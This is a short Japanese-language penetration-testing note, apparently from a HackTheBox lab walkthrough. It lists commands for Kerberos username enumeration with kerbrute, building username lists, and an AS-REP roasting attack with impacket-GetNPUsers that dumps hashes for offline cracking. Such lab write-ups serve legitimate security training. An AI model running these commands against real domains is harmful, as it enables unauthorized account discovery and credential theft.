 ## kerbrute

- コマンド:
  ```bash
  ./kerbrute_linux_amd64 -d egotisticalbank --dc 10.10.10.175 userenum /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
  ```

### Kerberos事前認証無効アカウントの調査

#### Windows用のusernameファイルの作成
- 事前にkerbruteやenum4linux等でDCの名前のフォーマットを調べ、そのフォーマットに対応するようにファイルを作成します。

  - ファーストネーム・ラストネーム形式
    ```bash
    /home/kali/github/username-anarchy/username-anarchy --input-file ./users.txt --select-format first.last
    ```
    ![First.Last Format](https://github.com/user-attachments/assets/9ae9aadf-5c86-48fa-a248-013025577acc)

  - ファーストネームイニシャル・ラストネーム形式
    ```bash
    /home/kali/github/username-anarchy/username-anarchy --input-file ./users_Initial_lastname.txt --select-format flast
    ```
    ![FLast Format](https://github.com/user-attachments/assets/9eec67cc-3dc6-4a01-b2da-56d41336eee2)

  - 注意: 画面出力しかされないので、これらを含むテキストファイルを改めて作成します。

### AS-REProast攻撃
- コマンド:
  ```bash
  impacket-GetNPUsers -usersfile users_Initial_lastname.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip 10.10.10.175 'EGOTISTICAL-BANK.LOCAL/'
  ```
  ![ASREProast Attack](https://github.com/user-attachments/assets/95fd7aa4-3a2b-435c-aca6-1893f741c00a)


